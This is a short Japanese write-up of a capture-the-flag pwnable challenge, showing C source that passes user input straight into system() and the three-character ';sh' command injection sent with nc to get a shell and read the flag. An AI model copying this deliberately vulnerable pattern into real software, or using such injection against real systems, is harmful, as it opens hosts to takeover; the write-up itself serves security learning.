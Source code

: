 # script_kiddie2:Pwnable:30pts
もう少し制約を厳しくしてみました。  
```
nc 34.145.29.222 30007
```
[new_dist.zip](new_dist.zip)  

# Solution
いきなり2からだが、script_kiddieはチームメンバが解いていた。  
new_dist.zipを展開するとmain.cなどソースが出てくる。  
以下のようであった。  
```c
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

// バッファリングを無効化して時間制限を60秒に設定
__attribute__((constructor)) void setup() {
  alarm(60);
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
}

void show_flag() {
  char flag_name[5] = {};
  printf("Which flag do you want?");
  read(0, flag_name, 5);

  char cmd[0x10];
  sprintf(cmd, "echo %s", flag_name);

  // show FLAG
  system(cmd);
}

int main() { show_flag(); }
```
5文字でOSコマンドインジェクションを行えばよいようだ。  
`;sh`でシェルが起動できるため、3文字しか必要ではない。  
以下のようにシェルをとる。  
```bash
$ (echo ";sh" ; cat) | nc 34.145.29.222 30007
Which flag do you want?
ls
flag
script_kiddie2
start.sh
cat flag
taskctf{sh_1s_als0_0k}
```
flagが得られた。  

## taskctf{sh_1s_als0_0k}